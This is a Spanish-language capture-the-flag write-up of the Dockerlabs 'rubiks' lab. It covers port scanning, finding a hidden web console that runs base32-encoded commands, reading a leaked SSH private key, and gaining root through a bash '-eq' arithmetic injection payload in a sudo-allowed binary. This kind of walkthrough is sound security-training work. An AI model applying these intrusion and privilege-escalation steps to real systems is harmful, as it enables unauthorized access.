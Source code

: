 # rubiks

Maquina "rubiks" de [Dockerlabs](https://dockerlabs.es)

Autor: [Luisillo\_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Medio

![rubiks](../../../maquina-rubiks/img/rubiks.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sun Sep  1 22:24:03 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-09-01 22:24:03 -03 for 9s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:3f:77:f8:5e:4e:89:42:4a:ce:14:3b:ac:59:05:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrfXFz4pyHxtcjrlXWm2Dry5PDT5HgtSquXhC/UIktolkH/x0IPt0a6tvePKwSbt3oKZ/f29oVgedMnzL55g+s=
|   256 b4:2a:b2:f8:4a:1b:50:09:fb:17:28:b7:29:e6:9e:6d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHxxY7fugsdx8wjNhWhOCOSrEH+NaadgL+ilg4ypJyQ+
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://rubikcube.dl/
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep  1 22:24:12 2024 -- 1 IP address (1 host up) scanned in 8.68 seconds
```

Como vemos, el puerto `22 y 80` están abiertos. El puerto 22 está corriendo openssh y el 80 apache. También podemos ver esta línea:

```css
http-title: Did not follow redirect to http://rubikcube.dl/
```

Esto significa que tenemos un dominio, por lo que editaremos el archivo `/etc/hosts` y agregamos al final lo siguiente:

```css
<ip> rubikcube.dl
```

Ahora entramos desde el navegador:

**Puerto 80:**

![80](../../../maquina-rubiks/img/80.png)

Al parecer es una página de una tienda pero nada nos sirve.

Ahora haremos un poco de fuzzing web con gobuster para ver si encontramos algo:

```css
gobuster dir -u http://rubikcube.dl/ -w <wordlist> -x php,html,txt
```

![gobuster](../../../maquina-rubiks/img/gobuster.png)

Como vemos hay un directorio `/administration/`, al cual si entramos y vamos a `Configuraciones > console` la url nos cambiará a "http://rubikcube.dl/myconsole.php" pero nos dice que no existe. Podriamos poner "myconsole.php" en "/administration/" y ver si realmente existe:

![console](../../../maquina-rubiks/img/console.png)

## INTRUSION

Como vemos parece que podemos ejecutar comandos, el problema es que nos pide una codificación. Luego de haber estado probando un rato se me ocurrió probar `base32` y ver si así podiamos ejecutar comandos, para esto podemos usar el script basico que hice, no es obligatorio pero da comodidad.

Si ejecutamos el comando `ls -la` (obviamente en base32) veremos la siguiente salida:

```css
total 28
drwxr-xr-x 1 root root  118 Aug 30 03:28 .
drwxr-xr-x 1 root root  132 Aug 30 02:03 ..
-rwxr-xr-x 1 root root 3389 Aug 30 03:28 .id_rsa
-rw-r--r-- 1 root root 6665 Aug 30 01:34 configuration.php
drwxr-xr-x 1 root root   16 Aug 30 00:23 img
-rw-r--r-- 1 root root 5460 Aug 30 01:22 index.php
-rw-r--r-- 1 root root 3509 Aug 30 01:52 myconsole.php
-rw-r--r-- 1 root root 1825 Aug 30 00:40 styles.css
```

Como vemos hay un id\_rsa, por lo que podriamos leerlo y copiarlo y también leer el `/etc/passwd` para ver con que usuario usarlo:

```css
luisillo:x:1001:1001::/home/luisillo:/bin/sh
```

Teniendo el usuario luisillo, nos copiamos el "id\_rsa" y nos lo guardamos en nuestra máquina atacante, luego le damos permisos de ejecución con `chmod 600 id_rsa` y simplemente nos conectamos usando `ssh -i id_rsa luisillo@172.17.0.2`.

## ESCALADA DE PRIVILEGIOS

**Luisillo**

Una vez dentro ejecutamos `bash`. Ahora si ejecutamos un `sudo -l` veremos lo siguiente:

```css
Matching Defaults entries for luisillo on f72b6d53a48d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on f72b6d53a48d:
    (ALL) NOPASSWD: /bin/cube
```

vemos que podemos ejecutar el binario cube como root, pero si lo miramos un poco vemos que usa un "EQ comparer" en la siguiente línea:

```css
if [[ $number -eq $correct_number ]]; then
```

por lo que si buscamos un poco encontramos que podemos aprovecharlo si ejecutamos lo siguiente en el input:

```css
a[$(/bin/bash >&2)]+42
```

Fuente: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/bash-eq-privilege-escalation/

Una vez ejecutado ganaremos acceso root:

![root](../../../maquina-rubiks/img/root.png)

Gracias por leer.
